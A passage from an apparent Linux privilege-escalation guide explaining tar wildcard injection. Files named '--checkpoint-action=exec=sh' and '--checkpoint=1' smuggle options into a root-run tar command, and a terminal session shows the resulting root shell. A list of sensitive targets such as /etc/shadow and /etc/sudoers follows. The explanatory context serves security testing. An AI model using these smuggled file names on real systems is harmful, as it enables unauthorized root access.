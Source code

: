 Once created, this is what you will find: 
```
user@host:~$ ls -la 
total 32
-rw-r--r-- 1 user user     5 Jan 12 10:34 --checkpoint-action=exec=sh
-rw-r--r-- 1 user user     3 Jan 12 10:33 --checkpoint=1
drwxr-xr-x 2 user user  4096 Jan 12 10:34 .
drwxr-xr-x 7 user user  4096 Jan 12 10:29 ..
-rwxr-xr-x 1 user user    22 Jan 12 10:32 test.sh
```
If this file is executed as root (from cron table, from sudoers, etc.), you should gain root access on the system. 

```
user@host:~$ sudo ./test.sh 
sh-4.3# id
uid=0(root) gid=0(root) groups=0(root)
```
So depending on which binary and how the wildcard are used, the exploitation can be done or not. So on our example, the exploitation would not work anymore if the file would be like this: 
```
user@host:~$ cat test.sh 
tar cf archive.tar *.txt
```
Thus, using a tool to detect these misconfigurations is very difficult. A manually analyse should be done to check if it's a false positive or not. 


Sensitive files 
----

Lots of file are run with high permissions on the system (e.g cron files, services, etc.). Here is an example of intersting directories and files:
```
/etc/init.d
/etc/cron.d 
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/passwd
/etc/shadow
/etc/at.allow
/etc/at.deny
/etc/crontab
/etc/cron.allow
/etc/cron.deny
/etc/anacrontab
/var/spool/cron/crontabs/root
/usr/lib
/lib
/etc/ld.so.conf
```
